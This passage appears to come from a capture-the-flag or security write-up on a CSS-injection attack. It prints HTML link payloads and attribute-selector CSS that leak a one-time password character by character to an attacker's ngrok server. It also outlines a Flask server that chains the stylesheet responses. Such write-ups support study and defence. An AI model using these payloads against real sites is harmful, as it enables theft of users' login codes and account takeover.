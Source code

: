 When the browser encounters `link` elements, it will make requests to each one's `src` URL to load the style. Once a response is received, it will **immediately** apply the style to the page. So, we can craft our server such that one of the URL's responds immediately, but the other URL's wait to response. The first CSS that we respond with will exfiltrate the first character, and once we receive the character, we can allow one of our waiting URL's to respond with CSS that will exfiltrate the second character. We can proceed like this until we exfiltrate all of the characters.

Here is an example of what such a payload would look like:

```html
<link rel="stylesheet" href="https://...ngrok.com/style/0">
<link rel="stylesheet" href="https://...ngrok.com/style/1">
<link rel="stylesheet" href="https://...ngrok.com/style/2">
<link rel="stylesheet" href="https://...ngrok.com/style/3">
<link rel="stylesheet" href="https://...ngrok.com/style/4">
<link rel="stylesheet" href="https://...ngrok.com/style/5">
<link rel="stylesheet" href="https://...ngrok.com/style/6">
<link rel="stylesheet" href="https://...ngrok.com/style/7">
<link rel="stylesheet" href="https://...ngrok.com/style/8">
<link rel="stylesheet" href="https://...ngrok.com/style/9">
<link rel="stylesheet" href="https://...ngrok.com/style/10">
<link rel="stylesheet" href="https://...ngrok.com/style/11">
```

We could have `/style/0` respond first and the others wait. `/style/0` could return:

```css
input[value^="a"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="b"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="Z"] { background-image: url("https://...ngrok.com/capture/Z") }
```

Say the first character of the OTP was `b`. Our server would then receive a request from the browser to `https://...ngrok.com/capture/b`. Our server could then use this character and have `https://...ngrok.com/style/1` finally respond with:

```css
input[value^="ba"] { background-image: url("https://...ngrok.com/capture/ba") }
input[value^="bb"] { background-image: url("https://...ngrok.com/capture/bb") }
...
input[value^="bZ"] { background-image: url("https://...ngrok.com/capture/bZ") }
```

If the second character was `Z`, our server would receive a request to `https://...ngrok.com/capture/bZ`, from which it could have `https://...ngrok.com/style/2` with CSS to exfiltrate the next character, and so on.

Eventually, this will exfiltrate the entire OTP, all with one payload!

### Crafting the Exploit Server

To implement a server with such a behavior, I used Flask's default multithreading behavior. Flask spawns a thread for each request, so I had each `style` endpoint wait on a condition variable. When a character was exfiltrated via a request to the `capture` endpoint, the server would notify the condition variable for the next `style` endpoint to respond, which would use the newly exfiltrated character to craft its response.

